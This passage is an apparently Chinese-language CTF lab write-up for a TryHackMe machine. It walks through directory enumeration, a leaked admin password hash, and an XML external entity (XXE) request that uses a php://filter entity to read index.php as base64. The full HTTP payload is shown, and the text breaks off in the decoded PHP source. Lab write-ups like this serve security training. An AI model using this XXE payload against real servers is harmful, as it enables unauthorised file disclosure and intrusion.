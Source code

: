 Extensions: php, jsp, asp, aspx, do, action, cgi, pl, html, htm, js, json, tar.gz, bak | HTTP method: GET | Threads: 100 | Wordlist size: 15492

Output File: /root/tryhackme/dirsearch/reports/10.10.243.173/-api-user_21-10-28_09-49-39.txt

Error Log: /root/tryhackme/dirsearch/logs/errors-21-10-28_09-49-39.log

Target: http://10.10.243.173/api/user/

[09:49:41] Starting: 
[09:51:22] 200 -   53B  - /api/user/login                                   
[09:51:22] 200 -   53B  - /api/user/login/                                  
[09:51:44] 200 -   91B  - /api/user/session/                                
[09:51:44] 200 -   91B  - /api/user/session
```

```/api/user/session/```打印

>{"active_sessions":[{"id":1,"username":"admin","hash":"1b4237f476826986da63022a76c35bb1"}]}


貌似可以肯定用户名就是admin
1b4237f476826986da63022a76c35bb1是md5密文,解密以后是：dQw4w9WgXcQ

然而```admin:dQw4w9WgXcQ```不能登录

what the fuck....

这串古怪的符号和youtube上的这个视频的id居然一样：
视频是[Rick Astley - Never Gonna Give You Up (Official Music Video)](https://www.youtube.com/watch?v=dQw4w9WgXcQ)，不知道是作者在叫我不要放弃还是有什么提示。。。


爆破admin账号不成功，sql注入也没有结果。在我经验范围内，我已经用尽了所有方法，所以这个时候我只能看大佬walkthrough了： ）

原来是在burpsuite里用xml注入

payload
```
GET /api/user?xml HTTP/1.1
Host: 10.10.243.173
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 148



<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">]>
<foo><id>&ac;</id></foo>
```

返回了index.php的base64密文，解出来是：
```
<?php
include_once('../Autoload.php');
include_once('../Route.php');
include_once('../Output.php');
include_once('../View.php');
